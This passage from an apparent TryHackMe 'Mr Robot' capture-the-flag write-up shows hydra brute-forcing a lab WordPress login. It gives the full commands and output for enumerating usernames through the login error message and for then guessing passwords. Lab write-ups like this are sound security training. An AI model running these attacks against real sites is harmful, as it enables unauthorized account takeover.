 As expected, it is a login page for wordpress, trying some default credentials only gets us ERROR: Invalid username, maybe if we submit a correct username we get something different.
 Using hydra, we can brute force the username with the wordlist we found earlier, but first lets look at the source code of the page.

 ![sourcecode](/assets/img/tryhackme/mrrobotctf/params.png)

 We can see that the method used to submit data is a POST request, with the username parameter "log" and password parameter "pwd", with these information, we can now start hydra with the following command:`hydra -L sorted.dic -p test {target_IP} http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`

 ```terminal
 $ hydra -L sorted.dic -p test 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 09:01:17
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.117.187:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username
[STATUS] 1233.00 tries/min, 1233 tries in 00:01h, 10219 to do in 00:09h, 16 active
[STATUS] 1235.67 tries/min, 3707 tries in 00:03h, 7745 to do in 00:07h, 16 active
[80][http-post-form] host: 10.10.117.187   login: elliot   password: test
[80][http-post-form] host: 10.10.117.187   login: ELLIOT   password: test
[80][http-post-form] host: 10.10.117.187   login: Elliot   password: test
 ```
 We found our username, let's now brute force the password using the same command but with some changes: `$ hydra -l elliot -P sorted.dic 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"`
